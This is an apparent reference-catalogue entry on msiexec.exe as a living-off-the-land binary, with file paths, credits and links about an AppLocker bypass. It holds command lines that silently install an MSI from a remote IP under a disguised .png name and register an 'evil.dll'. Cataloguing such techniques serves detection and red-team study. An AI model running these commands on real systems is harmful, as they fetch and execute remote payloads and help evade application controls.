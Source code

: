 ## Msiexec.exe
```

msiexec /q /i http://192.168.100.3/tmp/cmd.png
Installs the target remote & renamed .MSI file silently.

msiexec /y "C:\folder\evil.dll"
Calls DLLRegisterServer to register the target DLL.

msiexec /z "C:\folder\evil.dll"
Calls DLLRegisterServer to un-register the target DLL.
```
* Windows binary: True   
* Bypasses Default AppLocker Rules: False   
* Mitre: []()   
   
* Links:   
  * https://pentestlab.blog/2017/06/16/applocker-bypass-msiexec/
  * https://twitter.com/PhilipTsukerman/status/992021361106268161
   
* File path:   
  * c:\windows\system32\msiexec.exe
  * c:\windows\sysWOW64\msiexec.exe
   
* Acknowledgement:   
  * Name: netbiosX
    * Twitter: [@netbiosX](https://twitter.com/@netbiosX)
    * Blog: https://pentestlab.blog/
  * Name: Philip Tsukerman
    * Twitter: [@PhilipTsukerman](https://twitter.com/@PhilipTsukerman)
    * Blog: 
   
OS:  
